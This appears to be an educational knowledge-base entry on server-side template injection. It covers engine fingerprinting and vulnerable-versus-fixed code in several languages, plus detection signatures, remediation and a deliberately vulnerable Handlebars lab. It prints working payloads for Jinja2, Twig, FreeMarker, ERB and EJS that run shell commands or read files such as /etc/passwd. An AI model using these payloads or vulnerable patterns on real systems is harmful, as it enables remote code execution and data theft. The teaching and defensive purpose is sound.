

<!--
  Translation bar (added in the translation phase - D1/D10):
  English (this file)

  Writing style: no em dashes in prose. Use commas, colons, parentheses, or
  hyphens. (OWASP IDs keep their official en-dash format.)
-->

# Server-Side Template Injection (SSTI)

`A05:2025 – Injection` · Web Vulnerability Knowledge Base

## Summary

A template engine turns a **template** (a fixed layout with placeholders) plus
**data** (the values for those placeholders) into a finished page. Server-side
template injection (SSTI) happens when an application takes untrusted input and
puts it into the **template** position instead of the **data** position: the user
input is compiled and executed as template code rather than inserted as an escaped
value.

That single confusion is severe. A template language is a small programming
language, so once your input is the template you can do whatever the engine allows:
read variables you were never meant to see, call built-in functions and filters,
reach the objects behind the scenes, and in most server-side engines run operating
system commands. Depending on the engine, SSTI ranges from information disclosure
to full remote code execution.

The pattern to recognise is any value that ends up **inside a compiled template
string**: a `name`, `page`, `subject`, `template`, `theme`, `greeting`, or
`content` value that is concatenated into a template and handed to
`render_template_string()`, `Twig::createTemplate()`, `new Template(...)`,
`Handlebars.compile()`, `ERB.new(...)`, or `template.Parse()`. If submitting
`{{7*7}}` (or `${7*7}`, or `<%= 7*7 %>`) comes back as `49`, the input is being
executed, not displayed.

This entry explains how template engines work, how to **identify which engine** you
are facing during enumeration (the probes, the polyglot, and a decision table),
gives **exploitation examples** for the common engines, and then focuses on
**Handlebars** (Node.js), which the runnable lab uses. The lab shows how a custom
`read` helper turns template injection into arbitrary file read.

## OWASP Top 10 alignment

- **Category:** `A05:2025 – Injection`
- **Why it maps here:** SSTI is an injection flaw. Untrusted data crosses from the
  data plane into the code plane of the template engine, exactly the injection
  pattern shared with SQL injection and XSS. It is tracked primarily as **CWE-1336
  (Improper Neutralization of Special Elements Used in a Template Engine)**, with
  the more general **CWE-94 (Improper Control of Generation of Code, "Code
  Injection")** as its parent. In the OWASP Top 10:2021 injection was `A03`; this
  knowledge base maps to the Top 10:2025 edition, where injection (including XSS
  and template injection) is `A05:2025` (decision D15). When the engine allows it,
  SSTI escalates to remote code execution, overlapping `A05:2025 – Injection` with
  the impact of insecure design and misconfiguration.

## How it works

Every template engine has two inputs:

```
template (code) :  "Hello {{ name }}, welcome to {{ site }}"
data (context)  :  { name: "Ada", site: "WildPortal" }
output          :  "Hello Ada, welcome to WildPortal"
```

The **safe** flow keeps user input in the *data* box: the template is a fixed
string the developer wrote, and the user's value is inserted as an escaped
placeholder. The engine treats `{{ name }}` as "look up name and escape it", so a
user called `{{7*7}}` simply shows up as the literal text `{{7*7}}`.

SSTI is when user input lands in the *template* box:

```
name     = request.args["name"]                 # attacker controls this
template = "Hello " + name                        # input becomes part of the template
render(template, context)                         # the engine COMPILES and RUNS it
```

Now `name = {{7*7}}` is parsed as an expression and evaluates to `49`. Because a
template language can reference objects, call methods, and (in most server-side
engines) reach language built-ins, the attacker is effectively writing code that
runs on the server. The classic escalation chain is:

1. **Confirm execution:** a math probe like `{{7*7}}` returns `49`.
2. **Map the object space:** reach the engine's globals, the current context, or
   the language's class hierarchy.
3. **Reach a dangerous primitive:** a filter, a helper, an exposed object, or a
   built-in that reads files, runs commands, or loads classes.
4. **Impact:** file read, environment/secret disclosure, or remote code execution.

The **distinction from XSS** matters: XSS runs in the victim's browser, SSTI runs
on the server. A payload that "just" prints `49` is proof you are executing
server-side, which is why the same `{{7*7}}` that is harmless output in the data
box is a red alert in the template box.

## Identifying the template engine (enumeration)

You cannot exploit an engine until you know which one it is, because each has its
own syntax, object model, and escape hatches. Fingerprinting is a short decision
process driven by a few probes.

### Step 1: detect that a template is being evaluated at all

Send a value that is harmless as text but meaningful as template code, and watch
whether it is **evaluated** (turned into a result) or **reflected** (shown as is).

| Probe | Reflected (shown literally) | Evaluated (result) |
|---|---|---|
| `{{7*7}}` | not a template sink, or a logic-less engine (see Handlebars) | `49` -> a `{{ }}` engine (Jinja2, Twig, ...) |
| `${7*7}` | ... | `49` -> a `${ }` engine (FreeMarker, Thymeleaf, JSP EL) |
| `#{7*7}` | ... | `49` -> Pug, or some Ruby interpolation |
| `<%= 7*7 %>` | ... | `49` -> ERB (Ruby) or EJS (Node) |
| `{7*7}` | ... | `49` -> Smarty (PHP), single-brace engines |
| `@(7*7)` | ... | `49` -> Razor (C#) |

Because you often do not know the delimiter, a single **polyglot** probes several
at once. If any part evaluates or the response errors, you have a lead:

```
${{<%[%'"}}%\
```

This deliberately mixes `${...}`, `{{...}}`, `<%...%>`, and stray quotes/brackets so
that whichever engine is present either evaluates a fragment or throws a revealing
syntax error.

### Step 2: distinguish engines that share a delimiter

Many engines use `{{ }}`. Separate them with a probe whose result differs by engine.

| Probe | Jinja2 (Python) | Twig (PHP) | Notes |
|---|---|---|---|
| `{{7*7}}` | `49` | `49` | both evaluate math |
| `{{7*'7'}}` | `7777777` | `49` | Python repeats the string; PHP coerces to a number. This one line separates the two most common `{{ }}` engines |
| `{{7*7}}` after `` block errors | Jinja2-style block errors | Twig-style block errors | error text names the engine and file |

### Step 3: read the error messages

A malformed template usually produces an engine-specific error. The **text and
shape** of that error is one of the most reliable fingerprints:

- **Jinja2:** `jinja2.exceptions.TemplateSyntaxError`, mentions `jinja2` in the
  traceback.
- **Twig:** `Twig\Error\SyntaxError`, "Unexpected token" with a Twig file path.
- **FreeMarker:** `FreeMarker template error`, `freemarker.core.*`.
- **Handlebars:** `Error: Parse error on line N: ... Expecting ...` (see below).
- **Smarty:** `Smarty: Syntax error in template`.

### Engine identification table

| Engine | Typical stack | Positive probe | Distinctive tell |
|---|---|---|---|
| **Jinja2** | Python (Flask, Django-ish, Ansible) | `{{7*7}}`=49, `{{7*'7'}}`=`7777777` | string repetition; `{{ config }}`, `` blocks; `jinja2` in errors |
| **Twig** | PHP (Symfony, Craft, Drupal) | `{{7*7}}`=49, `{{7*'7'}}`=49 | `{{ _self }}` object; `` blocks; `Twig\Error` |
| **FreeMarker** | Java | `${7*7}`=49 | `${...}`, `<#assign>`, `?upper_case`, `?new()`; `freemarker.*` errors |
| **Velocity** | Java | `#set($x=7*7)$x`=49 | `#set`, `#foreach`, `$!{...}` directives |
| **Thymeleaf** | Java (Spring) | `${7*7}` / `*{7*7}` in `th:` attrs | `th:text`, SpringEL `${...}` / `*{...}` |
| **Handlebars** | Node.js | `{{7*7}}` -> **parse error**; `{{this}}` renders context | logic-less: math throws; `Parse error on line` |
| **Mustache** | many languages | `{{name}}` renders, math ignored | logic-less; unknown vars render empty, no error |
| **Pug (Jade)** | Node.js | `#{7*7}`=49 | indentation-based; `#{ }` interpolation |
| **EJS** | Node.js | `<%= 7*7 %>`=49 | `<% %>`, `<%= %>` tags |
| **ERB** | Ruby (Rails) | `<%= 7*7 %>`=49 | `<%= %>`; `(erb):` in errors |
| **Slim / Haml** | Ruby | `#{7*7}`=49 | terse Ruby templating |
| **Smarty** | PHP | `{7*7}`=49, `{$smarty.version}` | single braces; `{$smarty.*}` |
| **Razor** | C# / ASP.NET | `@(7*7)`=49 | `@`, `@{ }`, `@Model.*` |
| **Tornado** | Python | `{{7*7}}`=49 | `` blocks but not Jinja error shape |

### Handlebars is special: logic-less by design

Handlebars (and Mustache, which it extends) is **logic-less**. Its `{{ }}`
expressions are for looking up context values and calling **helpers**, not for
arithmetic or arbitrary expressions. So the usual first probe behaves differently:

- `{{7*7}}` does **not** print `49`. Handlebars raises a **parse error**:
  `Error: Parse error on line 1: {{7*7}} --^ Expecting ...`. That mismatch (a
  `{{ }}` engine that refuses to do math) is itself the fingerprint for Handlebars.
- `{{this}}` or a known variable like `{{siteName}}` **does** render, confirming
  your input is being compiled as a Handlebars template.
- Block helpers parse cleanly: `{{#each this}}{{/each}}`, `{{#with x}}{{/with}}`.

Because it is logic-less, Handlebars does not hand you arithmetic or direct calls
the way Jinja2 or Twig do. The danger comes from **what the application registered
around it**: custom **helpers**. A helper is a server-side function callable from a
template by name. If the app registered a helper that touches the filesystem or the
shell (for example a `read` helper that returns a file's contents), then template
injection immediately becomes whatever that helper can do. That is exactly the
scenario the lab demonstrates: `{{read "/root/.bashrc"}}` reads a file off the
server. The lesson generalises: in a logic-less engine, the blast radius of SSTI is
set by the helpers and context objects the developers exposed.

## Exploitation examples

Once the engine is known, a confirmed injection turns into a concrete primitive.
These are the canonical, widely documented payloads for the common server-side
engines. Payloads vary by version and by which objects the app exposes; treat them
as the standard starting points.

<details open><summary><b>Jinja2 (Python)</b> - read env / run commands</summary>

```jinja
{{7*7}}                                   {# confirm: -> 49 #}
{{7*'7'}}                                  {# confirm Jinja2: -> 7777777 #}

{# reach os via a built-in and run a command #}
{{ cycler.__init__.__globals__.os.popen('id').read() }}

{# or via config (Flask) #}
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```
Filtered environments strip `__`, `.`, or keywords; bypasses use `request`,
`|attr()`, and `[ ]` indexing. Root cause and fix are the same regardless.
</details>

<details><summary><b>Twig (PHP)</b> - run commands</summary>

```twig
{{7*7}}                                     {# confirm: -> 49 #}

{# modern Twig: map/filter over a callable #}
{{ ['id'] | map('system') | join }}
{{ ['id'] | filter('system') }}
```
Older Twig used `_self.env.registerUndefinedFilterCallback("system")` then
`_self.env.getFilter("id")`. The `{{ _self }}` object is also a Twig tell.
</details>

<details><summary><b>FreeMarker (Java)</b> - run commands</summary>

```freemarker
${7*7}                                       <#-- confirm: -> 49 -->

<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
```
FreeMarker's `?new()` built-in instantiates arbitrary classes, including the
`Execute` utility. Sandboxes exist but are often disabled.
</details>

<details><summary><b>ERB (Ruby) / EJS (Node.js)</b> - run commands</summary>

```erb
<%= 7*7 %>                                   <%# confirm: -> 49 %>
<%= system('id') %>                          <%# ERB: shell out %>
```
EJS uses the same `<%= %>` tags in Node; `<%= process.mainModule.require('child_process').execSync('id') %>`.
</details>

<details><summary><b>Handlebars (Node.js)</b> - file read via a dangerous helper (this lab)</summary>

```handlebars
{{7*7}}                {{! NOT 49: parse error. Logic-less -> this is Handlebars }}
{{this}}               {{! renders the context: confirms template compilation }}
{{siteName}}           {{! renders "WildPortal": your input is the template }}

{{read "/root/.bashrc"}}   {{! custom helper -> arbitrary file read }}
{{read "/etc/passwd"}}
```
Handlebars is logic-less, so there is no arithmetic or direct call primitive. The
impact here comes entirely from the application's registered `read` helper, which
returns any file's contents. This is the lab's intended path: read the target
user's `.bashrc` and recover the `PASSWORD` value.
</details>

## Attack path



1. The attacker finds an input that is rendered by a template engine: a customizable
   page, a templated email subject, a theme string, or here the admin "Edit Page
   Template" feature.
2. They send a fingerprint probe (`{{7*7}}`, `${7*7}`, the polyglot) and read the
   result and any error to identify the engine. In this lab `{{7*7}}` returns a
   Handlebars **parse error**, and `{{siteName}}` renders `WildPortal`, confirming
   a Handlebars sink.
3. They confirm their input is compiled as a template, not shown as data.
4. They reach a dangerous primitive for that engine. In Handlebars that is the
   registered `read` helper: `{{read "/root/.bashrc"}}`.
5. The helper runs server-side and returns the file contents in the rendered output.
6. The recovered secret (here an MD5 flag exported as `PASSWORD` in `/root/.bashrc`)
   confirms the compromise. On engines that allow it, the same foothold escalates to
   full remote code execution.

## Vulnerable & fixed code

> Every block shows the same flaw and its fix. Vulnerable = user input is used as
> the **template** (concatenated in and compiled). Fixed = user input is only
> **data**, passed as a context value into a fixed, precompiled template, where the
> engine escapes it and never executes it. The universal rule: **templates are code,
> so a template must never be built from untrusted input.**

<details open><summary><b>Python (Jinja2 / Flask)</b></summary>

**Vulnerable**
```python
from flask import request, render_template_string

def hello():
    name = request.args.get("name", "")
    # VULNERABLE: user input becomes part of the template source and is executed.
    # {{7*7}} -> 49, and Jinja2 globals lead to RCE.
    return render_template_string("Hello " + name)
```
**Fixed**
```python
from flask import request, render_template

def hello():
    name = request.args.get("name", "")
    # FIXED: the template is a fixed file; the user value is DATA passed as context.
    # In hello.html, {{ name }} is auto-escaped and never executed.
    return render_template("hello.html", name=name)
```
Docs: https://flask.palletsprojects.com/en/latest/quickstart/#rendering-templates
</details>

<details><summary><b>Java (FreeMarker)</b></summary>

**Vulnerable**
```java
// VULNERABLE: the request value is parsed as a FreeMarker template and processed.
// ?new() gadgets (e.g. the Execute utility) lead to RCE.
Template t = new Template("page", new StringReader(request.getParameter("tpl")), cfg);
t.process(model, out);
```
**Fixed**
```java
// FIXED: load a fixed template from disk; the request value is only data in the model.
Template t = cfg.getTemplate("page.ftl");
model.put("name", request.getParameter("name"));
t.process(model, out);   // ${name} is inserted as data, not executed
```
Docs: https://freemarker.apache.org/docs/pgui_quickstart_all.html
</details>

<details><summary><b>JavaScript (Handlebars / Node.js)</b></summary>

**Vulnerable**
```javascript
// VULNERABLE: user input is compiled AS A TEMPLATE and run (this lab's flaw).
// {{read "/root/.bashrc"}} reaches the registered read helper -> arbitrary file read.
const template = Handlebars.compile(req.body.template);
res.send(template(context));
```
**Fixed**
```javascript
// FIXED: precompile a FIXED template once; user input is only context data.
const template = Handlebars.compile("Hello {{name}}");   // trusted, compiled once
res.send(template({ name: req.body.name }));              // {{name}} escaped, never run
```
Docs: https://handlebarsjs.com/guide/expressions.html
</details>

<details><summary><b>TypeScript (Handlebars)</b></summary>

**Vulnerable**
```typescript
// VULNERABLE: types do not stop SSTI - input is still compiled as a template.
const template = Handlebars.compile(req.body.template as string);
res.send(template(context));
```
**Fixed**
```typescript
// FIXED: fixed template, user value passed as data.
const template = Handlebars.compile("Hello {{name}}");
res.send(template({ name: String(req.body.name) }));
```
Docs: https://handlebarsjs.com/guide/expressions.html
</details>

<details><summary><b>PHP (Twig)</b></summary>

**Vulnerable**
```php
<?php
// VULNERABLE: user input is built into a template string and rendered.
// {{7*7}} -> 49; filter/map gadgets lead to RCE.
$tpl = $twig->createTemplate('Hello ' . $_GET['name']);
echo $tpl->render();
```
**Fixed**
```php
<?php
// FIXED: render a fixed template file; user input is a variable (data).
// {{ name }} is auto-escaped and never executed.
echo $twig->render('hello.twig', ['name' => $_GET['name']]);
```
Docs: https://twig.symfony.com/doc/3.x/api.html
</details>

<details><summary><b>Ruby (ERB)</b></summary>

**Vulnerable**
```ruby
require "erb"
# VULNERABLE: user input is parsed as an ERB template and evaluated.
# <%= system('id') %> runs a shell command.
ERB.new(params[:tpl]).result(binding)
```
**Fixed**
```ruby
# FIXED: fixed .erb template; user input is a local variable (data), escaped on output.
template = ERB.new(File.read("views/hello.erb"))
name = ERB::Util.html_escape(params[:name])
template.result(binding)
```
Docs: https://docs.ruby-lang.org/en/3.3/ERB.html
</details>

<details><summary><b>Go (html/template)</b></summary>

**Vulnerable**
```go
// VULNERABLE: user input is parsed as a template definition, then executed.
t := template.Must(template.New("p").Parse(r.FormValue("tpl")))
t.Execute(w, data)   // exposed methods/fields on data become reachable
```
**Fixed**
```go
// FIXED: parse a FIXED template; user input flows in only as data.
// html/template auto-escapes {{.Name}} for the correct context.
t := template.Must(template.ParseFiles("hello.tmpl"))
t.Execute(w, map[string]string{"Name": r.FormValue("name")})
```
Docs: https://pkg.go.dev/html/template
</details>

<details><summary><b>C# (Razor)</b></summary>

**Vulnerable**
```csharp
// VULNERABLE: user input is compiled and run as a Razor template.
// @{ System.Diagnostics.Process.Start(...) } leads to RCE.
var result = Engine.Razor.RunCompile(Request.Query["tpl"], "key", null, model);
```
**Fixed**
```csharp
// FIXED: use a fixed .cshtml view; user input is model data, auto-encoded.
// @Model.Name is HTML-encoded and never executed.
return View("Hello", new HelloModel { Name = Request.Query["name"] });
```
Docs: https://learn.microsoft.com/en-us/aspnet/core/mvc/views/razor
</details>

## Detection signatures

- **Input markers in traffic and logs:** template metacharacters in parameters,
  bodies, headers, and cookies: `{{`, `}}`, `${`, `#{`, `<%`, `%>`, `{%`, the SSTI
  polyglot `${{<%[%'"}}%\`, arithmetic probes (`{{7*7}}`, `${7*7}`, `{{7*'7'}}`),
  and engine object names (`__class__`, `__globals__`, `_self`, `?new()`, `cycler`,
  `lipsum`, `settings`, `config`).
- **Responses that prove evaluation:** a parameter that echoes back `49` for
  `{{7*7}}`, `7777777` for `{{7*'7'}}`, or command output (`uid=0(root)`), and
  template-engine stack traces (`jinja2.exceptions`, `Twig\Error`, `freemarker.core`,
  `Parse error on line`).
- **Behavioural anomalies:** one input field probed with escalating template syntax
  across many requests; 500 errors that appear only when braces or `${` are present;
  responses whose length changes with an arithmetic payload.
- **SAST patterns:** user input reaching `render_template_string`, `Template(...)`
  built from a string, `Twig::createTemplate`, `Handlebars.compile`,
  `Handlebars.precompile` on request data, `ERB.new`, `Liquid::Template.parse`,
  `template.New(...).Parse`, or `RunCompile` with a request value as the template
  source (as opposed to the model/context).
- **Illustrative SIEM query (Splunk-style)** - template metacharacters against a
  parameter:
  ```
  index=web sourcetype=access_combined
  | regex uri_query="(?i)(\{\{.*\}\}|\$\{.*\}|<%.*%>|__class__|__globals__|_self|\?new\(\))"
  | stats count values(uri_query) BY src_ip, uri_path
  | where count > 3
  ```

## Remediation checklist

- [ ] **Never build a template from untrusted input.** Templates are code. Keep the
  template a fixed, developer-authored string or file, and pass user input only as
  **data** (context values). This one rule prevents SSTI outright.
- [ ] **Use the data-binding API, not string concatenation.** Call
  `render_template("page.html", name=name)`, not
  `render_template_string("Hi " + name)`. Same for `createTemplate`, `compile`,
  `Parse`, `ERB.new`, and `RunCompile`: give them a fixed template and a separate
  data object.
- [ ] **If users must supply layout, use a logic-less, sandboxed engine** (for
  example a strict Mustache/Handlebars configuration) and expose the smallest
  possible context. Do not register helpers or pass objects that reach the
  filesystem, the shell, `require`, `process`, class loaders, or reflection.
- [ ] **Audit custom helpers and exposed context.** In logic-less engines the risk
  is the helpers and objects you register. Remove or gate anything like a `read`,
  `exec`, `include`, or `require` helper; never expose secrets or dangerous objects
  in the template context.
- [ ] **Enable the engine's sandbox where one exists** (Twig SandboxExtension,
  FreeMarker `TemplateClassResolver` restrictions, Jinja2 `SandboxedEnvironment`)
  and treat it as defence in depth, not the primary control.
- [ ] **Run the app with least privilege** and in a container/jail so a successful
  injection reaches as little of the filesystem and as few capabilities as possible.
- [ ] **Keep secrets out of easily readable locations** and out of the process
  environment where a file read or `/proc/self/environ` read would surface them.
- [ ] **Add monitoring / WAF** for the signatures above as a detective layer, knowing
  a WAF is a speed bump, not the fix.

## References

- OWASP - Testing for Server-Side Template Injection (WSTG): https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection
- PortSwigger Web Security Academy - Server-side template injection: https://portswigger.net/web-security/server-side-template-injection
- PortSwigger Research - Server-Side Template Injection (James Kettle): https://portswigger.net/research/server-side-template-injection
- MITRE - CWE-1336 (Special Elements Used in a Template Engine): https://cwe.mitre.org/data/definitions/1336.html
- MITRE - CWE-94 (Code Injection): https://cwe.mitre.org/data/definitions/94.html
- Handlebars - Expressions and helpers: https://handlebarsjs.com/guide/expressions.html
- PayloadsAllTheThings - Server Side Template Injection: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

## Lab

A runnable, intentionally vulnerable app lives in [`lab/`](lab/). "WildPortal" is a
small **Node.js + Handlebars** app with **three pages**, as specified for this
entry:

1. **Front page** (`/`): a hello and welcome message (and the lab panel: how to
   solve, diagram, hints, code, and the flag box).
2. **Admin page** (`/admin`): an admin menu with an **Edit Page Template** button.
3. **Template editor** (`/admin/edit-template`): opened in a **new popup window**
   from the admin button. Whatever you type is compiled and rendered on the server
   with Handlebars. That server-side compilation of your input is the vulnerability.

```bash
cd lab
docker compose up --build      # build once (needs network for npm), then runs offline
# open http://127.0.0.1:8000
```

**Goal:** recover the **MD5 flag** exported as the `PASSWORD` environment variable
inside the target user's shell start-up file, `/root/.bashrc`. Handlebars is
logic-less, so identify it first (`{{7*7}}` errors instead of printing `49`), then
use the app's custom **`read`** helper to read the file:

```handlebars
{{read "/root/.bashrc"}}
```

Copy the 32-char value after `PASSWORD=` and submit it in the flag box on the front
page. The flag rotates on every restart.

The app registers exactly one dangerous helper, which is the whole point:

```
read(path)  ->  returns the contents of any file the server process can access
```

Everything else (the three pages, the fingerprint probes in the editor, the flag
check) is there to walk you from "which engine is this?" to "arbitrary file read"
the way you would on a real target.
